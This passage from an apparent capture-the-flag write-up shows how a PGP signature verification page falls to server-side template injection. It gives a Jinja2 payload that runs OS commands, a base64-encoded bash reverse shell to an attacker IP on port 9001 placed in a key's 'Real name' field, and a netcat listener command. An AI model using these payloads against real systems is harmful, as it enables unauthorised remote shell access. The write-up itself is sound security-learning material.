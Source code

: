 
The next step is put two messages on the correct place, the key signature message and the public key. And then click on verify the message. If we do it right we get a "49" on the response, this means that the website is interpreting and executing code.

```
Signature is valid! [GNUPG:] NEWSIG gpg: Signature made Thu 09 Nov 2023 05:24:19 PM UTC gpg: using RSA key C424258B762F06B6F17FECE4D975605D4F6F1204 [GNUPG:] KEY_CONSIDERED C424258B762F06B6F17FECE4D975605D4F6F1204 0 [GNUPG:] SIG_ID BQqiwxy06xHlFhuEi5abH9zEtNw 2023-11-09 1699550659 [GNUPG:] KEY_CONSIDERED C424258B762F06B6F17FECE4D975605D4F6F1204 0 [GNUPG:] GOODSIG D975605D4F6F1204 49 gpg: Good signature from "49" [unknown] [GNUPG:] VALIDSIG C424258B762F06B6F17FECE4D975605D4F6F1204 2023-11-09 1699550659 0 4 0 1 10 01 C424258B762F06B6F17FECE4D975605D4F6F1204 [GNUPG:] TRUST_UNDEFINED 0 pgp gpg: WARNING: This key is not certified with a trusted signature! gpg: There is no indication that the signature belongs to the owner. Primary key fingerprint: C424 258B 762F 06B6 F17F ECE4 D975 605D 4F6F 1204
```

Look at the `Good signature from "49"`. We have success, now lets see if we can get a reverse shell.

Fist I will delete the keys that I made before
```
gpg --delete-secret-keys test@test.com

gpg --delete-keys test@test.com
```

I take this payload from payload all the things website and I changed the "id" for my reverse shell

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

This will give problems for the > or the & characters, so its better to encode it with base 64

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c “bash -i >& /dev/tcp/<your_ip>/9001 0>&1”').read() }}
```

Encode the payload:

```
echo "bash -c 'bash -i >& /dev/tcp/<your_ip>/9001 0>&1'" | base64

YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44Ni85MDAxIDA+JjEnCg==
```

Now i repeated the process but on the "Real name" input I used this `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44Ni85MDAxIDA+JjEnCg==" | base64 -d | bash ').read() }}`


First we need to listen on netcat 

```
nc -nlvp 9001
```

So when I click "Verificate sign" I will have a reverse shell.
